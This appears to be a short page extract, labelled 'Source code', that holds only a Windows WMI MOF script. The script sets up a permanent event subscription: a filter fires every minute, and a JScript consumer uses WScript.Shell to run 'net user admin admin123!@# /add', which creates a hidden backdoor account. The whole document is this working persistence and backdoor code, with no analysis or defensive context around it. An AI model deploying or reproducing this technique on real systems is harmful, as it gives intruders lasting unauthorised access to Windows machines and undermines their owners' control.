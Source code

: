 ```shell
#pragma namespace("\\\\.\\root\\subscription") 

instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 

instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin123!@# /add\")"; 
}; 

instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
};

```

![](image60/60-18.png)
